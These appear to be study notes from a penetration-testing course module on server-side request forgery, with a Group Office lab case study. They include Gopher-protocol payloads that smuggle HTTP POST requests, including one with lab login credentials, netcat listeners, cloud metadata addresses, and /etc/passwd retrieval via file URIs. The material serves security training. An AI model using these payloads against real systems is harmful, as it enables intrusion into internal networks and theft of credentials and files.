



# Module 14: Server-side Request Forgery

## Introduction to SSRF

### Interacting with the Vulnerable Server

_Example: Using a SSRF we could interact with the loopback interface of a vulnerable server which would ordinarily not be accessible otherwise._

### Interacting with Back-end Systems and Private IP Ranges

_Private IP Addresses_

| **IP address range** | **Number of addresses** |
| -------------------- | ----------------------- |
| 10.0.0.0/8           | 16,777,216              |
| 172.16.0.0/12        | 1,048,576               |
| 192.168.0.0/16       | 65,536                  |

_Using a SSRF we could also potentially interact with other systems on the internal network._

## Testing for SSRF

### Accessing the SSRF Sandbox Application

_Start the VPN, VM, and add the IPs and hostnames to your hosts file._

### Discovering SSRF Vulnerabilities

_If we discover upload functionality via URL, URI, or link, we should test for SSRF._

<figure><figcaption><p>SSRF Sandbox</p></figcaption></figure>

<figure><figcaption><p>SSRF Sandbox previewing http://www.megacorpone.com</p></figcaption></figure>


Note that requests to other domains will most likely fail since the VMs in the lab environment do not have full access to the Internet.


<figure><figcaption><p>SSRF Sandbox - Verify Link</p></figcaption></figure>

<figure><figcaption><p>Verifying http://www.megacorpone.com</p></figcaption></figure>

### Calling Home to Kali

_Restarting the Apache HTTP Server_

```bash
kali@kali:~$ sudo systemctl restart apache2
```


When we are performing this kind of testing in the real world, we should include a unique identifier in the URL. This would help us locate the attack in our log file.


_Verifying the application requested a page from our Kali VM_


```log
kali@kali:~$ sudo tail /var/log/apache2/access.log
192.168.50.101 - - [15/Oct/2021:16:49:40 -0400] "GET /hello_ssrf_world HTTP/1.1" 404 491 "-" "python-requests/2.26.0"
```


## Exploiting SSRF

### Retrieving Data

<figure><figcaption><p>Attempting to access the Status page</p></figcaption></figure>

<figure><figcaption><p>Using the SSRF vulnerability to access the Status page</p></figcaption></figure>

### Instance Metadate in Cloud

_Some cloud hosting providers, such as AWS, use the link-local address **169.254.169.254** for their metadata services. Others provide access through DNS, such as Google Cloud, which uses metadata.google.internal. These may include sensitive/private information._

### Bypassing Authentication in Microservices

_Any security controls enforced by an API gateway on traffic entering the internal network would not apply to the traffic between two microservices since the traffic originates within the internal network_

### Alternative URL Schemes

<figure><figcaption><p>An example file URI in Firefox</p></figcaption></figure>

_Checking the contents of the kali default homepage_


```markup
kali@kali:~$ head /usr/share/kali-defaults/web/homepage.html        
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Kali Linux</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta name="description" content="Kali Linux is an Advanced Penetration Testing Linux distribution used for Penetration Testing, Ethical Hacking and network security assessments." />
    <meta name="author" content="Kali Linux" />
    <!-- based on template from http://bootstraptaste.com -->
    <!-- css -->
```


<figure><figcaption><p>An exception occurred</p></figcaption></figure>

<figure><figcaption><p>Accessing the contents of /etc/passwd using curl</p></figcaption></figure>

_Starting a netcat listener on port 9000_

```bash
kali@kali:~$ nc -nvlp 9000
listening on [any] 9000 ...
```

_Using curl to send a request with the Gopher protocol_

```bash
kali@kali:~$ curl gopher://127.0.0.1:9000/hello_gopher
```

_Netcat listener handling the Gopher request_

```bash
...
listening on [any] 9000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56264
ello_gopher
```

_Example HTTP GET request_

```http
GET /hello_gopher HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: curl/7.74.0
Accept: */*
```

_Sending a mock HTTP request over the Gopher protocol_

```bash
kali@kali:~$ curl gopher://127.0.0.1:9000/_GET%20/hello_gopher%20HTTP/1.1
```

_Netcast listener handlin gour mock HTTP request_

```bash
...
listening on [any] 9000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56274
GET /hello_gopher HTTP/1.1
```

<figure><figcaption><p>Accessing /status using the gopher protocol</p></figcaption></figure>

<figure><figcaption><p>Sending a POST request with gopher to /status</p></figcaption></figure>

<figure><figcaption><p>Double URL-encoding in HTTP Request body</p></figcaption></figure>

### Extra Mile

<details>

<summary><em>Use the Gopher protocol to send a POST request with the username "white.rabbit" and password "dontbelate" to the login endpoint to obtain a flag.</em></summary>


```uri
gopher://backend:80/_POST%20/login%20HTTP/1.1%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2041%0d%0a%0d%0ausername%3dwhite.rabbit&password%3ddontbelate
```


</details>

## Case Study: Group Office

### Accessing Group Office

_Start the VPN, the VM, and add the IP and hostname to your hosts file._

### Discovering the SSRF Vulnerabilities

<figure><figcaption><p>Group Office login page</p></figcaption></figure>

<figure><figcaption><p>Group Office Start Page</p></figcaption></figure>

<figure><figcaption><p>The list of portlets we can add to the Start Page</p></figcaption></figure>

<figure><figcaption><p>The updated Start page including the News portlet</p></figcaption></figure>

<figure><figcaption><p>Group Office RSS Feeds window</p></figcaption></figure>

_Restarting apache2_

```bash
kali@kali:~$ sudo systemctl restart apache2
```

<figure><figcaption><p>Adding our IP address as an RSS feed</p></figcaption></figure>

_Checking our access.log file with tail_


```log
kali@kali:~$ sudo tail /var/log/apache2/access.log
192.168.50.105 - - [17/Nov/2021:10:34:02 -0500] "GET / HTTP/1.1" 200 10956 "-" "Group-Office HttpClient 6.5.77 (curl)"
```


<figure><figcaption><p>HTTP history for addin RSS feeds</p></figcaption></figure>

<figure><figcaption><p>Proxy request in Burp Suite Repeater</p></figcaption></figure>

<figure><figcaption><p>The response content is a 404 page including our IP address</p></figcaption></figure>

Access log contents include a request to /repeater


```log
kali@kali:~$ sudo tail /var/log/apache2/access.log
192.168.50.105 - - [17/Nov/2021:10:34:02 -0500] "GET / HTTP/1.1" 200 10956 "-" "Group-Office HttpClient 6.5.77 (curl)"
192.168.50.105 - - [17/Nov/2021:10:55:39 -0500] "GET /repeater HTTP/1.1" 404 437 "-" "Group-Office HttpClient 6.5.77 (curl)"
```


<figure><figcaption><p>My Account link</p></figcaption></figure>

<figure><figcaption><p>Updating a user's profile picture</p></figcaption></figure>

<figure><figcaption><p>Insert from  URL dialog window</p></figcaption></figure>

<figure><figcaption><p>Submitting our IP address in the URL field</p></figcaption></figure>

_Access log contents include a request to /fromurl_


```log
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.50.105 - - [17/Nov/2021:11:25:45 -0500] "GET /fromurl HTTP/1.1" 404 437 "-" "Group-Office HttpClient 6.5.77 (curl)"<c/r>
```


<figure><figcaption><p>Burp Suite HTTP history with request to /api/upload.php</p></figcaption></figure>

<figure><figcaption><p>The bloblId is used in following request</p></figcaption></figure>

_Creating itworked.html and moving it to our webroot_

```bash
kali@kali:~$ echo "it worked" > itworked.html
                      
kali@kali:~$ sudo mv itworked.html /var/www/html/itworked.html
```

<figure><figcaption><p>Updating the URL parameter</p></figcaption></figure>

<figure><figcaption><p>The server responds with an error</p></figcaption></figure>

### Exploiting the SSRF Vulnerabilities

<figure><figcaption><p>The server returned an empty response to our attack</p></figcaption></figure>

<figure><figcaption><p>Group Office Address book page</p></figcaption></figure>

<figure><figcaption><p>Downloading a blob</p></figcaption></figure>

<figure><figcaption><p>Retrieving our HTML page</p></figcaption></figure>

<figure><figcaption><p>Sending the SSRF attack to access /etc/passwd</p></figcaption></figure>

<figure><figcaption><p>Retrieving the contents of /etc/passwd</p></figcaption></figure>
